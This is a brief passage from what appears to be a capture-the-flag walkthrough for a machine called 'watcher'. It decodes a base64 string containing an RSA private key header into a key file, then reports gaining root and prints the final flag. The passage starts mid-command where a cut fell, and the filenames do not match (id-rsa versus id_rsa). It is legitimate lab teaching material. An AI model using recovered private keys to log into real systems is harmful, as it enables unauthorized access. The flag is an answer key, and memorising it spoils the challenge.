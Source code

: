 ```
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=' | base64 -d > id-rsa; chmod 600 id_rsa
```

Now, let's access root:

![](../images/Pasted%20image%2020250326163020.png)

It worked, we finally got root, let's read final flag:

```
root@watcher:~# cat flag_7.txt
FLAG{who_watches_the_watchers}
```

![](../images/Pasted%20image%2020250326163056.png)

